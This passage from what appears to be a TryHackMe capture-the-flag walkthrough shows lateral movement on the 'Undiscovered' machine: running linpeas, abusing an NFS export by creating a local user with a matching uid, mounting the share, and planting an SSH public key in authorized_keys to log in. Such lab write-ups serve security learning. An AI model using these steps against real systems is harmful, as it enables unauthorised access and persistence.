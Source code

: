 ## www-data -> william (lateral move)

First I listed `/home` directory to see the users on the machine and found: `leonard` and `william`:

~~~
www-data@undiscovered:/$ ls -la /home
total 16
drwxr-xr-x  4 root    root    4096 Sep  4  2020 .
drwxr-xr-x 25 root    root    4096 Sep  4  2020 ..
drwxr-x---  5 leonard leonard 4096 Sep  9  2020 leonard
drwxr-x---  4 william william 4096 Sep 10  2020 william
~~~

As you can see, we don't have permission to look through these folders. I started enumerating the machine manually, but found nothing. I decided to uplaod `linpeas` to help me out with the situation. This part of the linpeas output reminded me of something:

~~~
╔══════════╣ NFS exports?
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

/home/william	*(rw,root_squash)
~~~

There is an NFS mount with root squash. Normally we can just mount the folder on our machine and look through it, but we can't do the same here. To solve this problem, we have to add user `william` with the same id which is 3003 (you can see the user id by running `id -u william`) and then mount the folder and it should work.

Just run the following commands one by one on your machine:

~~~
$ sudo useradd -u 3003 -d /dev/shm william
$ mkdir /tmp/nfs
$ sudo mount -t nfs <MACHINE IP>:/home/william /tmp/nfs
$ sudo su william
$ id
uid=3003(william) gid=3003(william) groups=3003(william)
~~~

Now we can look through the nfs mount as user `william`. We can read the user flag now, but let's get a stable shell first. We can make a `.ssh` directory and add our public key to it (If you don't have a public key, you can create one using `ssh-keygen` and the file with `.pub` extention is the public key) and connect to the machine via ssh. The steps are as follows:

~~~
$ cd /tmp/nfs
$ mkdir .ssh
$ cd .ssh
$ echo "<YOUR PUBLIC KEY>" > authorized_keys
~~~

Now we can login via ssh as `william` using our private key:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Undiscovered/files]
└─$ ssh -i ~/.ssh/id_rsa william@<MACHINE IP>        
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 packages can be updated.
0 updates are security updates.

~~~